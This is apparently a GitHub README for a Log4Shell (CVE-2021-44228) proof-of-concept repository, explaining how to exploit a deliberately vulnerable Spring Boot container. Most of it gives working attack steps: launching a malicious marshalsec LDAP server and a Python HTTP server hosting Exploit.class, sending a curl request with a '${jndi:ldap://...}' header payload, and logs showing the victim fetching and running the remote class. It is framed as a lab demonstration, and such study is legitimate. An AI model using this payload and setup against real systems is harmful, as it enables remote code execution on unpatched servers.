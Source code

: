 # Log4Shell POC (CVE-2021-44228)

The scope of this repository is to provide all the components needed to exploit CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/),   
and to show how to exploit it.

The ingredients needed to exploit this vulnerability are the following:
1. An **LDAP Server** that will redirect the vulnerable application to the exploit.
2. A **Vulnerable application** (Spring Boot web application vulnerable to CVE-2021-44228) using a vulnerable version of Log4J.
3. The Java **Exploit.class** (and the corresponding
Exploit.java file) that will be loaded by the Vulnerable application.
4. An **http server** from which the Vulnerable application will download the malicious Exploit.class

Credits:
- The **LDAP Server** has been pulled out from [mbechler](https://github.com/mbechler/marshalsec) Marshalsec repository.
- The **Vulnerable application** is the one provided by [christophetd](https://github.com/christophetd/log4shell-vulnerable-app).

Prerequisites:
- Maven
- Java
- Docker
- Python

## Running `LDAP Server` and `HTTP Server`
### `HTTP Server`
**1**. Move to `exploit` folder and spin up the http server by means of Python.
```
python3 -m http.server PORT
```
### `LDAP Server`
**1.** Move to `ldap_server` folder and build the `pom.xml`


```bash
mvn clean package -DskipTests
```

**2.** Move to `target` folder and spin up the server specifying `http_server_ip` and `http_server_port`

```
java -cp ldap_server-1.0-all.jar marshalsec.jndi.LDAPRefServer "http://http_server_ip:http_server_port/#Exploit"
```

*Note: this command runs the malicious ldap server by enforcing it to answer with the **Exploit.class** URI to every ldap query.*




## Running the `Vulnerable application`

Run the docker vulnerable application docker container

```
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

*Note: by default we're executing the vulnerable application on port 8080, feel free to change it.*

## Exploitation
Once the `vulnerable_application`, the `ldap_server` and the `http_server`
 are running, send a malicious http request to the vulnerable server.

```
curl VULNERABLE_APPLICATION_IP:8080 -H 'X-Api-Version: ${jndi:ldap://ldap_server_ip:1389/a}'
```

The `vulnerable_application` will log the payload and will perform an ldap query

```
2021-12-24 18:48:14.644  INFO 1 --- [nio-8080-exec-1] HelloWorld: Received a request for API version ${jndi:ldap://10.0.2.15:1389/a}
```

The `ldap_server` will answer with the Exploit.class URI

```
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.0.2.15:8443/Exploit.class
```

The `http_server` will receive a request to Exploit.class

```
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
172.17.0.2 - - [24/Dec/2021 19:48:14] "GET /Exploit.class HTTP/1.1" 200 -
```

Finally, we can check that the exploit created a new file on the victim filesystem. In this example we need to check the docker container filesystem.

![](./POC.png)

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/   
https://github.com/mbechler/marshalsec   
 https://github.com/christophetd/log4shell-vulnerable-app

## Contributors
[@CrashOverflow](https://github.com/CrashOverflow)
